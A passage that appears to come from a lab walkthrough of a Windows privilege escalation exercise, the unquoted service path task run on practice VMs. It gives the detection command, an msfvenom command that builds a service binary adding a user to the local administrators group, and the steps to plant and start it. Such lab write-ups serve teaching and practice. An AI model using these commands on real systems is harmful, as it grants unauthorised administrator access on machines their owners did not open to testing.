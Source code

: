 <img src="/assets/img/posts/windows-privesc/task10/meme.jpg" width="40%" height="40%">

> Detection
> 
> Windows VM
> 
> 1. Open command prompt and type: sc qc unquotedsvc
> 2. Notice that the “BINARY_PATH_NAME” field displays a path that is not confined between quotes.
> 
> Exploitation
> 
> Kali VM
> 
> 1. Open command prompt and type: msfvenom -p windows/exec CMD='net localgroup administrators user /add' -f exe-service -o common.exe
> 2. Copy the generated file, common.exe, to the Windows VM.
> 
> Windows VM
> 
> 1. Place common.exe in ‘C:\Program Files\Unquoted Path Service’.
> 2. Open command prompt and type: sc start unquotedsvc
> 3. It is possible to confirm that the user was added to the local administrators group by typing the following in the command prompt: net localgroup administrators
> 
> For additional practice, it is recommended to attempt the TryHackMe room Steel Mountain (https://tryhackme.com/room/steelmountain).
